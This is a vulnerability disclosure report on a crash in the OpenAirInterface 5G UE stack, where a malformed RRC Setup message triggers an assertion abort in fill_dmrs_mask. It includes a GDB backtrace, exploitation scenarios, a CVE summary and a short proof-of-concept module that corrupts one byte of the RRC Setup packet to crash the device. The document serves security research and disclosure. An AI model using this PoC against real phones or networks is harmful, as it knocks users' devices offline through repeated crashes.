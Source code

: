 # mac_sch_16__BWP_Downlink_bwp_Common_reencoded_63_report
**Vulnerability Soucce Code**
https://gitlab.eurecom.fr/oai/openairinterface5g/-/blob/0afa3f3193f77ce718148ca48cbf18b321d1cf23/openair2/LAYER2/NR_MAC_COMMON/nr_mac_common.c#L3722

```
AssertFatal(l_prime>=0,"ERROR in configuration.Check Time Domain allocation of this Grant. l_prime < 1. row:%d, column:%d\n", row, column);
```

**Crash Context**  

In the 5G connection, the base station (sender) communicates with the user equipment (receiver), where the crash occurred on the user equipment. This crash took place during the RRC connection setup phase after the base station sent a tampered data packet. The backtrace reveals a `SIGABRT` error signal in the UEthread, with the primary function implicated being `fill_dmrs_mask` in the nr_mac_common.c file at line 3722

**1. Cause of Crash**
   - The function `fill_dmrs_mask` receives parameters such as `pdsch_Config`, `dmrs_TypeA_Position`, `NrOfSymbols`, `startSymbol`, `mappingtype`, and `length`. These parameters directly influence the configuration of the `DMRS` (Demodulation Reference Signal) mask, a critical component in handling downlink data. A malformed packet or invalid parameter values can lead to unexpected behavior in `fill_dmrs_mask`, potentially due to:
     - Out-of-range values or type mismatches.
     - Null or uninitialized pointers (e.g., `pdsch_Config`).
     - Unexpected values that violate assumptions in `nr_ue_process_dci` and related functions, triggering a `SIGABRT`.

**2. Vulnerability Potential**
   - **Memory Corruption**: The `fill_dmrs_mask` function could be susceptible to memory corruption if it does not handle out-of-bounds values properly. 
   - **Denial of Service (DoS)**: An attacker who can send malformed or unexpected data in RRC messages may repeatedly trigger this crash, causing the UE to repeatedly abort, thus leading to a Denial of Service (DoS).

**3. Exploitation Scenarios**
   - **Remote Trigger**: By crafting an RRC message with specific, malformed configurations (e.g., manipulating `NrOfSymbols`, `startSymbol`), an attacker could potentially cause memory corruption or crashes in UEs connected to a compromised gNB.
   - **Persistent UE Crash Loop**: If the vulnerability is exploited in an environment where the UE continually attempts reconnections, a persistent crash loop could occur, effectively rendering the UE unusable.

**Summary for CVE Submission**
The vulnerability appears to be triggered by malformed parameters in RRC messages, resulting in an unhandled exception in `fill_dmrs_mask`. This may be exploited to cause denial of service by repeated crashes or, potentially, memory corruption if further validation gaps are discovered. Additional research is needed to confirm exploitation potential, but this crash highlights a flaw in handling tampered packet inputs in RRC setup, affecting the UE’s stability and security.

**GDB Debug Information**
```console
Thread 13 "UEthread" received signal SIGABRT, Aborted.
[Switching to Thread 0x7a2574e00700 (LWP 42174)]
__GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:51
51	../sysdeps/unix/sysv/linux/raise.c: No such file or directory.
(gdb) bt
#0  __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:51
#1  0x00007a25857837f1 in __GI_abort () at abort.c:79
#2  0x00005e2e7c80fea0 in fill_dmrs_mask (pdsch_Config=0x1, dmrs_TypeA_Position=<optimized out>, NrOfSymbols=1, startSymbol=1, mappingtype=<optimized out>, length=1) at /home/user/wdissector/3rd-party/oai_5g_sa/openair2/LAYER2/NR_MAC_COMMON/nr_mac_common.c:3722
#3  0x00005e2e7c927c83 in nr_ue_process_dci (module_id=<optimized out>, cc_id=<optimized out>, gNB_index=<optimized out>, frame=<optimized out>, slot=<optimized out>, dci=0x5e2e86471f20, dci_ind=0x7a2574d932b0) at /home/user/wdissector/3rd-party/oai_5g_sa/openair2/LAYER2/NR_MAC_UE/nr_ue_procedures.c:1308
#4  0x00005e2e7c92b360 in nr_ue_process_dci_indication_pdu (module_id=<optimized out>, cc_id=<optimized out>, gNB_index=<optimized out>, frame=193, slot=14, dci=0x7a2574d932b0) at /home/user/wdissector/3rd-party/oai_5g_sa/openair2/LAYER2/NR_MAC_UE/nr_ue_procedures.c:629
#5  0x00005e2e7c915cd8 in handle_dci (module_id=<optimized out>, cc_id=<optimized out>, gNB_index=<optimized out>, frame=<optimized out>, slot=<optimized out>, dci=<optimized out>) at /home/user/wdissector/3rd-party/oai_5g_sa/openair2/NR_UE_PHY_INTERFACE/NR_IF_Module.c:1068
#6  0x00005e2e7c9161e2 in nr_ue_dl_indication (dl_info=0x7a2574d93230, ul_time_alignment=<optimized out>) at /home/user/wdissector/3rd-party/oai_5g_sa/openair2/NR_UE_PHY_INTERFACE/NR_IF_Module.c:1168
#7  0x00005e2e7c830a1b in nr_ue_pdcch_procedures (ue=0x7a25879c9010, proc=<optimized out>, pdcch_est_size=<optimized out>, pdcch_dl_ch_estimates=<optimized out>, phy_data=<optimized out>, n_ss=<optimized out>, rxdataF=0x7a2574de79e0) at /home/user/wdissector/3rd-party/oai_5g_sa/openair1/SCHED_NR_UE/phy_procedures_nr_ue.c:542
#8  0x00005e2e7c835d1d in phy_procedures_nrUE_RX (ue=0x7a25879c9010, proc=<optimized out>, phy_data=<optimized out>) at /home/user/wdissector/3rd-party/oai_5g_sa/openair1/SCHED_NR_UE/phy_procedures_nr_ue.c:1212
#9  0x00005e2e7c7ff128 in UE_processing (rxtxD=0x7a2574dff8b0) at /home/user/wdissector/3rd-party/oai_5g_sa/executables/nr-ue.c:622
#10 0x00005e2e7c800441 in UE_thread (arg=0x7a25879c9010) at /home/user/wdissector/3rd-party/oai_5g_sa/executables/nr-ue.c:911
#11 0x00007a258730e6db in start_thread (arg=0x7a2574e00700) at pthread_create.c:463
#12 0x00007a258586461f in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:95
(gdb) 

```

**Malformed Packet Send From the Base Station**
![Malformed Packet](https://github.com/qiqingh/mac_sch_16__BWP_Downlink_bwp_Common_reencoded_63_report/blob/main/pcap.png)


**PoC Code**
The following PoC code generates a falsified packet sent from the Base Station (sender) to the User Equipment (receiver). Due to a vulnerability in the User Equipment, this packet causes the device to crash, resulting in a Denial of Service (DoS).

To compile and run this PoC code, you'll need the environment described here: https://github.com/asset-group/5ghoul-5g-nr-attacks?tab=readme-ov-file#4--create-your-own-5g-exploits-test-cases

```cpp
#include <ModulesInclude.hpp>

// Filters
wd_filter_t f1;

// Vars

const char *module_name()
{
    return "Mediatek";
}

// Setup
int setup(wd_modules_ctx_t *ctx)
{
    // Change required configuration for exploit
    ctx->config->fuzzing.global_timeout = false;

    // Declare filters
    f1 = wd_filter("nr-rrc.rrcSetup_element");

    return 0;
}

// TX
int tx_pre_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
{
    // Register filters
    wd_register_filter(ctx->wd, f1);

    return 0;
}

int tx_post_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
{
    if (wd_read_filter(ctx->wd, f1)) {
        wd_log_y("Malformed rrc setup sent!");
        pkt_buf[146 - 48] = 0x80;
        return 1;
    }

    return 0;
}

```
